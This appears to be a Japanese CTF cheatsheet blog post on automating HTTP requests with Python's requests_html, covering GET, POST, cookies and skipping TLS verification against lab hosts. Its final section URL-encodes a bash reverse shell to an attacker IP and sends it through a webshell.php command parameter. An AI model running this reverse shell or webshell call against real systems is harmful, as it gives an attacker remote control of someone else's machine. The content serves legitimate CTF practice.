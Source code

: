 ```yaml
---
layout: post
title: HTTP通信の自動化(python/requests_html)
published : true
tags: CTF Common cheatsheet python requests_html
---
```

## 基本
```python
from requests_html import HTMLSession

s = HTMLSession()
```

## GET
```python
url = 'http://10.10.11.116/'

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```

## POST
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, data=data)
```

## POST(JSON)
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, json=data)
```

## Cookie
### 取得

### 送信
```python
url = "http://10.10.11.139:5000/"

session.cookies.set('auth', 'some_cookie')

r = session.get(url)
```

## TLS証明書の検証をしない
verify=False
```python
url = 'https://store.nunchucks.htb/api/submit'
r = session.post(url, verify=False, json=data)
```

## DataのURL encode
```python
import urllib.parse

cmd = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"'
cmd = urllib.parse.quote(cmd)
url = f'http://10.10.11.116/webshell.php?cmd={cmd}'

r = s.get(url)
```